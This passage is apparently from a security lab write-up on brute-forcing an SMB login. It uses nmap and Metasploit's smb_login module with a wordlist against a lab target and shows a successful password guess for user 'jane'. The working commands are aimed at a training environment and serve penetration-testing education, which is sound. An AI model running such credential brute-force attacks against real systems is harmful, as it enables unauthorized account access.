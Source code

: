 <details><summary>Reveal Flag: 🚩</summary></details>

***

### SMB: Dictionary Attack

#### Lab 6

> 🔬 [Samba Recon: Dictionary Attack](https://attackdefense.com/challengedetails?cid=556)
>
> * Target IP: `192.174.58.6`
> * Linux SMB detailed enumeration using `word lists`

`Word lists` are lists of already known and used passwords, some of them leaked from breached websites or other services. Those passwords can be used as part of the attack via brute force tools.

In Kali Linux [wordlists](https://www.kali.org/tools/wordlists/) can be found inside `/usr/share/wordlists` directory.

```bash
gzip -d /usr/share/wordlists/rockyou.txt.gz
# Unzip rockyou.txt list
```

```bash
ip -br -c a
	eth1@if108489   UP   192.174.58.5/24
```

* Target IP is `192.174.58.6`

```bash
nmap 192.174.58.6
	139/tcp open  netbios-ssn
	445/tcp open  microsoft-ds
```

* Use [`smb_login`](https://www.rapid7.com/db/modules/auxiliary/scanner/smb/smb\_login) metasploit module to bruteforce _jane_'s password

```bash
msfconsole
```

```bash
use auxiliary/scanner/smb/smb_login 
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
set SMBUser jane
set RHOSTS 192.174.58.6
exploit
```

```bash
[*] 192.174.58.6:445      - 192.174.58.6:445 - Starting SMB login bruteforce
[-] 192.174.58.6:445      - 192.174.58.6:445 - Failed: '.\jane:admin',
[!] 192.174.58.6:445      - No active DB -- Credential data will not be saved!
[-] 192.174.58.6:445      - 192.174.58.6:445 - Failed: '.\jane:123456',
[-] 192.174.58.6:445      - 192.174.58.6:445 - Failed: '.\jane:12345',
[-] 192.174.58.6:445      - 192.174.58.6:445 - Failed: '.\jane:123456789',
[-] 192.174.58.6:445      - 192.174.58.6:445 - Failed: '.\jane:password',
[-] 192.174.58.6:445      - 192.174.58.6:445 - Failed: '.\jane:iloveyou',
[-] 192.174.58.6:445      - 192.174.58.6:445 - Failed: '.\jane:princess',
[-] 192.174.58.6:445      - 192.174.58.6:445 - Failed: '.\jane:1234567',
[-] 192.174.58.6:445      - 192.174.58.6:445 - Failed: '.\jane:12345678',
[+] 192.174.58.6:445      - 192.174.58.6:445 - Success: '.\jane:abc123'
[*] 192.174.58.6:445      - Scanned 1 of 1 hosts (100% complete)
```
